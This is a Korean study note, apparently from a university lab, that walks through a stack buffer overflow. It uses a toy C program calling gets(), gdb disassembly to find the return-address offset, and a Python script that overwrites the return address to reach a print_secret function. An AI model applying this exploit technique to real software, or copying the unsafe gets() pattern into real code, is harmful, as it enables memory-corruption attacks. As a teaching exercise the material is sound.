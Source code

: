 ```yaml
---
id: 19-금
---
```


# 23.05.19.

# Today I learned

- 컴시개

## 컴퓨터시스템개론

### Buffer Overflow Exploitation

오버플로우를 발생시켜 반환주소 변환시키기

```C
//myecho
#include <stdio.h>

void print_secret(void);

void echo(void) {
    char buf[24];
    puts("Input your message:");
    gets(buf);
    puts(buf);
}

int main(void) {
    echo();
    return 0;
}
```

```python
//exe.py
import os, sys
parent_dir = os.path.dirname(os.path.dirname(os.path.abspath(__file__)))
sys.path.append(parent_dir)
from helper import Program

def exploit():
    prog = Program("./myecho")
    print(prog.read_line()) # Read the output of the program
    prog.send_line("A"*40+"\x86\x06\x40") # Send input to the program
    print(prog.read_line())
    print(prog.read_line())

if __name__ == "__main__":
    exploit()
```

exe.py를 실행시켜 bufferoverflow를 발생시켜 secret.txt파일을 실행시켜보자.

```
cse20201593@cspro:~/assembly/hw2/2-1$ gdb -q myecho
Reading symbols from myecho...(no debugging symbols found)...done.
(gdb) disas echo
Dump of assembler code for function echo:
   0x00000000004006f3 <+0>:	sub    $0x28,%rsp
   0x00000000004006f7 <+4>:	mov    $0x4007e8,%edi
   0x00000000004006fc <+9>:	callq  0x400510 <puts@plt>
   0x0000000000400701 <+14>:	mov    %rsp,%rdi
   0x0000000000400704 <+17>:	mov    $0x0,%eax
   0x0000000000400709 <+22>:	callq  0x400550 <gets@plt>
   0x000000000040070e <+27>:	mov    %rsp,%rdi
   0x0000000000400711 <+30>:	callq  0x400510 <puts@plt>
   0x0000000000400716 <+35>:	add    $0x28,%rsp
   0x000000000040071a <+39>:	retq
End of assembler dump.
```

gdb를 실행시켜 echo파일을 디셈블 해본다.

```
(gdb) x/1s 0x4007e8
0x4007e8:	"Input your message:"
```

`puts`는 $0x4007e8 레지스터에 저장되어있는 string배열을 받아 출력한다.
overflow를 발생시켜 반환주소를 변경하기위해 `gets`를 탐색한다.

```
(gdb) b * 0x400709
Breakpoint 1 at 0x400709
(gdb) r
Starting program: /sogang/under/cse20201593/assembly/hw2/2-1/myecho
Input your message:

Breakpoint 1, 0x0000000000400709 in echo ()
(gdb) x/8xg $rsp
0x7fffffffe410:	0x0000000000000000	0x0000000000000000
0x7fffffffe420:	0x0000000000400730	0x0000000000400590
0x7fffffffe430:	0x00007fffffffe520	0x0000000000400724
0x7fffffffe440:	0x0000000000000000	0x00007ffff7a2d840
```

`gets`함수가 실행될때 breakpoint를 걸고, 이때 rsp레지스터를 열어본다.  
`0x00000000004006f3 <+0>:	sub    $0x28,%rsp`로부터 40바이트 떨어진 곳에 0x400724인 반환주소가 위치한걸 알 수 있다.
이 주소는 어디를 가리킬까?

```
(gdb) disas main
Dump of assembler code for function main:
   0x000000000040071b <+0>:	sub    $0x8,%rsp
   0x000000000040071f <+4>:	callq  0x4006f3 <echo>
   0x0000000000400724 <+9>:	mov    $0x0,%eax
   0x0000000000400729 <+14>:	add    $0x8,%rsp
   0x000000000040072d <+18>:	retq
End of assembler dump.
```

main함수에서 echo함수를 호출하고 저장한 returnaddress임을 알 수 있다.  
우리는 이 주소를 `print_secret()`의 주소로 바꿀 수 있다면, secret.txt를 호출할 수 있다.
`print_secret()`의 주소를 찾아보면

```
(gdb) disas print_secret
Dump of assembler code for function print_secret:
   0x0000000000400686 <+0>:	sub    $0x58,%rsp
```

로 0x400686임을 알수있다.  
`gets`는 $rsp레지스터를 인자로 받으므로, 40바이트 더미값을 집어넣고 이후 `print_secret`의 주소를 써 넣으면 echo는 실행 후 main함수로 돌아오지 않고 `print_secret`을 호출한다.

```
def exploit():
    prog = Program("./myecho")
    print(prog.read_line()) # Read the output of the program
    prog.send_line("A"*40+"\x86\x06\x40") # Send input to the program
    print(prog.read_line())
    print(prog.read_line())
```

출력결과

```
cse20201593@cspro:~/assembly/hw2/2-1$ ./exploit-myecho.py
Input your message:
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA@
The secret string is {8712f8ef}
```
